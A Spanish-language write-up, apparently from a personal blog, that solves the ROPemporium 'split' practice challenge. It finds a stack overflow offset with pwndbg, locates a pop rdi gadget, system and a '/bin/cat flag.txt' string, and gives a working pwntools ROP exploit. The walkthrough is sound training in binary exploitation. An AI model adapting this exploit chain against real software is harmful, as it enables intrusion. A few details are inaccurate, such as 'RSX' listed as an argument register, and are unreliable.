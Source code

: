```yaml
---
title: ROPemporium split - Usando ROP para escribir en RDI
author: c4rta
date: 2023-01-15
categories: [Explotacion binaria, ROPemporium]
tags: [ROP]
---
```


## A tomar en cuenta

- La dirección máxima en 64 bits es ```0x00007FFFFFFFFFFF``` y el RIP no puede sobrescribir una dirección mayor que este valor. 
- Los parámetros de función se pasan a los registros. Estos registros son RDI, RSI, RDX, RSX, R8, R9, respectivamente. Si el número de parámetros es superior a 6, se guardan en el stack

## Analizando el binario

Primeramente veremos con que protecciones cuenta el binario, esto con ```checksec```:

```
checksec --file=split                                             ─╯
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		3		split
```
Como se puede ver tiene ```NX``` asi que no podemos ejecutar codigo en el stack, asi que para resolverlo vamos a usar ROP (Programacion Orientada el Retorno).

Ahora metere el binario a radare2 para ver lo que esta haciendo en el main:

![](/assets/img/commons/spilt/radare1.png)

Aqui lo unico interesante es que se esta llamando a la funcion ```pwnme``` en la direccion ```0x004006d2```. Y lo demas simplemente es el mensajito de bienvenida.

En la funcion ```pwnme``` tenemos esto:

![](/assets/img/commons/spilt/radare2.png)

- En color rojo se esta declarando un puntero llamado ```buf``` que esta 0x20 por debajo del ```RBP```
- En color amarillo se esta creando un buffer de ```0x20``` (32 bytes) el cual se almacena en ```buf```
- En color verde es cuando el programa recibe nuestro input el cual lee ```0x60``` bytes en ```buf```.

Esto no es todo, siempre hay que mostrar todas las funciones en un programa, en radare lo hacemos con ```alf```. Veamos:

![](/assets/img/commons/spilt/radare3.png)

Vemos como existe una funcion llamada ```usefulFunction``` la cual nunca se llama en el programa, y si vemos codigo tenemos algo como esto:

![](/assets/img/commons/spilt/radare4.png)

Se esta haciendo uso de la funcion ```system``` para llamar a ```/bin/ls```, esto no es lo que queremos, nosotros queremos que llame a ```/bin/cat flag.txt```, y la pregunta es... ¿Como yo se que en el binario se esta llamando a ```/bin/cat flag.txt```?, pues facil, simplemente podemos mostrar los strings con ```rabin2 -z split```:

![](/assets/img/commons/spilt/radare5.png)

Podemos ver que en la seccion ```.data``` esta ```/bin/cat flag.txt```, asi que tenemos que sustituirlo por ```/bin/ls```


## Crafteando el exploit

### Sacando el offset del RIP

Con ```pwndbg``` voy a ocasionar que el buffer pete pasandole la cadena generada por ```cyclic 100```, y deberiamos ver algo como esto:

```
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffda78 ◂— 0x6161616161616166 ('faaaaaaa')
*RIP  0x400741 (pwnme+89) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x400741 <pwnme+89>    ret    <0x6161616161616166>
```

Vemos que no sobrescribimos RIP en absoluto. Esto se debe a que sobrescribimos RIP con una dirección no válida mayor que ```0x00007fffffffffff```. Esto hace que el sistema operativo genere una excepción, y por lo tanto, no actualice el valor de RIP en absoluto. 

Asi que para sacar su offset podemos usar el registro ```RSP```, para sacar el offset de ```RSP``` ponemos ```cyclic -l faaaaaaa``` y esto nos da un offset de ```40```, este offset es el mismo que tiene el ```saved-rip```, y tiene el mismo ya que el ```saved rip``` tiene el valor guardado del puntero de instruccion, es decir, adonde regresar, pero este valor se guarda en el stack en una direccion en particular, y esa direccion es ```0x7fffffffda78```, esto lo podemos saber si mostramos el frame y vemos esta parte:

```
 Saved registers:
  rip at 0x7fffffffda78
```
Y si mostramos unos cuantos byes del stack, con el comando ```x/30wx $rsp``` vemos algo como esto:

```
0x7fffffffda78:	0x61616166	0x61616161	0x61616167	0x61616161
0x7fffffffda88:	0x61616168	0x61616161	0x61616169	0x61616161
0x7fffffffda98:	0x6161616a	0x61616161	0x6161616b	0x61616161
0x7fffffffdaa8:	0x6161616c	0x61616161	0xffffdb98	0x00007fff
0x7fffffffdab8:	0x35f3056c	0x394c8b3a	0x00000000	0x00000000
0x7fffffffdac8:	0xffffdba8	0x00007fff	0x00000000	0x00000000
0x7fffffffdad8:	0xf7ffd000	0x00007fff	0x80d1056c	0xc6b374c5
0x7fffffffdae8:	0xb179056c	0xc6b36486
```
En donde en la direccion ```0x7fffffffda78``` tenemos los valores ```0x61616166	0x61616161```, los cuales son los mismos que tiene el ```RSP```, asi que podemos decir que el ```saved rip``` tiene el valor ```0x6161616161616166``` y el ```RSP``` el valor ```faaaaaaa``` (que es lo mismo que ```0x6161616161616166``` pero en decimal), ademas podemos tambien hacer un ```cyclic -l 0x6161616161616166``` y nos dara un offset de 40 al igual que el ```RSP```. Y como ultimo, en este caso le estamos indicando al programa que regrese a ```0x6161616161616166```, lo cual es incorrecto. Y por toda esta explicacion es la razon por la cual el ```saved rip``` y el ```RSP``` tienen el mismo offset (nunca habia explicado esto y es bueno saberlo).

### Direccion de system

Esto es muy facil, para esto, usaremos la direccion de system que se encuentra en la funcion ```usefulFunction```, como se puede ver aca:

![](/assets/img/commons/spilt/radare6.png)

La direccion es: ```0x000000000040074b```

### Direccion de /bin/cat flag.txt

Esto lo hacemos con ```rabin2 -z split``` y copiamos la direccion, la cual es: ```0x00601060```

### Direccion de pop rdi

Como mencione hace un rato, usamos esto para meter en el registro rdi: ```/bin/cat flag.txt```. La direccion de pop rdi la podemos sacar con herramientas como ropper, la cual nos permiten ver todos los gadgets del programa. Usamos el comando ```ropper -f split```.

Vemos como nos encontro el gadget:

```0x00000000004007c3: pop rdi; ret; ``` y su direccion es ```0x00000000004007c3```

## Ejecutando el exploit

Al final nuestro exploit quedo asi:

```py
from pwn import *

p = process("./split")

padding = b"A" * 40
system = 0x000000000040074b
bin_cat = 0x00601060
pop_rdi = 0x00000000004007c3

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system)

p.sendline(payload)
print(p.recvall().decode())
```

Y lo que hicimos fue:

- Cambiar el return adress a la dirección de pop rdi; ret.
- Después del return adress, pusimos la dirección de /bin/cat flag.txt
- Después de la dirección de /bin/cat flag.txt, pusimos la dirección de system@plt

De esta manera después de la última instrucción de ```pwnme``` se ejecute (osea el ```ret```), el ```RIP``` saltara a la dirección de ```pop rdi;ret```, simultáneamente el ```RSP``` apuntará ahora a la dirección de ```/bin/cat flag.txt```. Luego se pondrá en ```rdi``` la dirección de ```/bin/cat flag.txt``` y el ```ret``` ejecutará la funcion```system``` que tiene como argumento ```/bin/cat flag.txt``` :point_up: 🤓  

Y al ejecutarlo nos da la flag:

![](/assets/img/commons/spilt/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/spilt/waifu.gif)
